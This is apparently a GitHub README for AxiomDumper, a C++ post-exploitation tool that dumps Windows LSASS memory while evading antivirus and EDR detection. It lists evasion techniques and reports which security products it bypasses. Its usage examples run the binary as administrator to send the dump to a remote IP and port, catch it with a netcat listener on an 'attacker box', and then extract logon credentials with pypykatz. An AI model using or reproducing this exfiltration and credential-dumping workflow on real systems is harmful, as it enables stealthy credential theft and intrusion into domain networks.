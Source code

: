 ## AxiomDumper

Post-exploitation C++ tool to dump LSASS memory discreetly, without triggering AV/EDR alerts.

![](example.png)

AxiomDumper implements LSASS dump via multiple evasion techniques. Non-exhaustive list includes :
- Indirect Syscalls with in-ntdll return
- Minidump reimplementation to avoid the use of WINAPI's Minidump function
- Custom MD5 hashing of sensitive of potentially suspicious strings
- Duplication of SYSTEM handles opened towards LSASS to avoid opening such handles ourselves
- Reimplementation of common glibc functions to permit the use of functions considereed unsafe otherwise
- And more ... :)

Tested against :
- Windows Defender AV & XDR : SUCCESS
- Cortex XDR 8.5.0 : SUCCESS
- Elastic Security with all open-sourced yar rules : SUCCESS
- HarfangLab : SUCCESS
- WithSecure 2.6.2 : SUCCESS
- Sentinel ONE : FAILURE :/
- Crowdstrike Falcon : FAILURE :/

TODO list :
- Find a way to avoid the use of NtOpenProcess() with PROCESS_DUP_HANDLE flag. It is flagged by some EDRs.
- Implement custom call-stack building to avoid EDRs flagging on weird looking call stacks (looking at you Sentinel ONE). Indirect Syscalls alone have become insufficient.

## Usage

Run the program with /help or no arguments to get usage informations
```powershell
PS> .\AxiomDumper.exe /help
Usage: Y:\AxiomDumper\x64\Release\AxiomDumper.exe [/help|/PPcheck <PID>] IP PORT

Examples :

.\AxiomDumper.exe 192.168.1.20 # Dumps and send data over network to the specified IP and PORT
.\AxiomDumper.exe /PPcheck 720 # Checks protection status of the process identified by PID 720
.\AxiomDumper.exe /help # Print usage info
```

Just run the binary as Administrator, passing the exfiltration IP and PORT as arguments.

Examples :
```powershell
PS> whoami
adlab/administrator
PS> AxiomDumper.exe 192.168.57.1 9001
PS> AxiomDumper.exe 13.37.42.69 8888
```

On your attacker box, simply run a netcat listener and redirect output to a file :
```bash
$ nc -nlvp 9001 > /tmp/lsass.dmp
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 192.168.57.21.
Ncat: Connection from 192.168.57.21:54093.

$ pypykatz lsa minidump /tmp/lsass.dmp
INFO:pypykatz:Parsing file /tmp/lsass.dmp
FILE: ======== /tmp/lsass.dmp =======
== LogonSession ==
authentication_id 4406268 (433bfc)
session_id 1
username Administrator
domainname ADLAB
logon_server ADLAB-DC01
...

```

## Checking RunAsPPL flag
If you get this error : `[!] Could not duplicate a SYSTEM handle with necessary access rights, process has probably the RunAsPPL flag on`
Then you can check the protection status of lsass (or any process really) by running the program with:

```powershell
PS> tasklist | findstr lsass
lsass.exe               732  Services       0       26,4K
PS> .\AxiomDumper /PPcheck 732
Protection status for process: 732 (\Device\HarddiskVolume2\Windows\System32\lsass.exe)

    Type:   PsProtectedTypeNone
    Signer: PsProtectedSignerNone
```

This check requires admin privileges.
If it does not display "PsProtectedTypeNone", then lsass is running as a protected process and you will need a driver to disable this protection.
WARNING: This check will be detected by some EDRs. It does not intend to evade detection and it will trigger alerts during your engagement if you are not careful. You've been warned.

## Debugging
You can enable debugging output by modifying this line in AxiomDumper.h :
![](debug.png)
WARNING : This will generate a binary with embedded strings that will make it somewhat more prone to detection, reserve this for testing environments.

## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.

## Notes

(Non-extensive) testing has shown that the binary if more prone to being flagged in built with debugging symbols (duh). Make sure to build in release mode.

